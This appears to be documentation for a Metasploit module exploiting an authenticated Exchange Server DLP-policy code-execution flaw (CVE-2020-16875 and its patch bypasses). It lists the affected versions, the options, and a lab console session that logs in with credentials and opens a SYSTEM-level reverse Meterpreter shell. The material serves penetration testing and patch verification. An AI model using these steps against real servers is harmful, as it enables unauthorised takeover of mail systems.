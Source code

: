 ## Vulnerable Application

### Description

This vulnerability allows remote attackers to execute arbitrary code on affected installations of Exchange Server.
Authentication is required to exploit this vulnerability. Additionally, the target user must have the `Data Loss
Prevention` role assigned and an active mailbox.

If the user is in the `Compliance Management` or greater `Organization Management` role groups, then they have the `Data
Loss Prevention` role. Since the user who installed Exchange is in the `Organization Management` role group, they
transitively have the `Data Loss Prevention` role.

The specific flaw exists within the processing of the `New-DlpPolicy` cmdlet. The issue results from the lack of proper
validation of user-supplied template data when creating a DLP policy. An attacker can leverage this vulnerability to
execute code in the context of `SYSTEM`.

Tested against Exchange Server 2016 CU19 on Windows Server 2016.

#### A Note On Patches And Bypasses

The root cause of this vulnerability was first identified and reported to Microsoft who assigned it CVE-2020-16875 and
attempted to fix it in Exchange Server 2016 Cumulative Update (CU) 18 and Exchange Server 2019 CU7 which were released
on September 15th, 2020. The patch was later able to be [bypassed][1], allowing newer versions upto and including 
Exchange Server 2016 CU19 and Exchange Server 2019 CU8 which were released on December 15th 2020. One of the first patch
bypasses was assigned CVE-2020-17132 and was addressed by Microsoft, however that patch too was able to be bypassed.

### Setup

Set up a [vulnerable target](#targets).

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

`Exchange Server <= 2016 CU19 and 2019 CU8`

## Options

### USERNAME

Set this to the OWA username.

### PASSWORD

Set this to the OWA password.

## Scenarios

### Exchange Server 2016 CU17 on Windows Server 2016

```
msf6 > use exploit/windows/http/exchange_ecp_dlp_policy 
[*] Using configured payload windows/x64/meterpreter/reverse_https
msf6 exploit(windows/http/exchange_ecp_dlp_policy) > set USERNAME smcintyre
USERNAME => smcintyre
msf6 exploit(windows/http/exchange_ecp_dlp_policy) > set PASSWORD Password1
PASSWORD => Password1
msf6 exploit(windows/http/exchange_ecp_dlp_policy) > set VHOST WIN-BPID95ACQ7E
VHOST => WIN-BPID95ACQ7E
msf6 exploit(windows/http/exchange_ecp_dlp_policy) > show options 

Module options (exploit/windows/http/exchange_ecp_dlp_policy):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   Password1        no        OWA password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.42   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   USERNAME   smcintyre        no        OWA username
   VHOST      WIN-BPID95ACQ7E  no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.159.128  yes       The local listener hostname
   LPORT     8443             yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Exchange Server <= 2016 CU19 and 2019 CU8


msf6 exploit(windows/http/exchange_ecp_dlp_policy) > check
[*] 192.168.159.42:443 - The target appears to be vulnerable. Exchange Server 15.1.2176 is a vulnerable build.
msf6 exploit(windows/http/exchange_ecp_dlp_policy) > exploit

[*] Started HTTPS reverse handler on https://192.168.159.128:8443
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Exchange Server 15.1.2176 is a vulnerable build.
[*] Logging in to OWA with creds smcintyre:Password1
[+] Successfully logged in to OWA
[*] Retrieving ViewState from DLP policy creation page
[+] Successfully retrieved ViewState
[*] Creating custom DLP policy from malicious template
[*] https://192.168.159.128:8443 handling request from 192.168.159.42; (UUID: lg8kqsog) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (192.168.159.128:8443 -> 192.168.159.42:37415) at 2021-01-13 09:17:08 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : EXCHG
Logged On Users : 9
Meterpreter     : x64/windows
meterpreter > 
```

[1]: https://srcincite.io/blog/2021/01/12/making-clouds-rain-rce-in-office-365.html
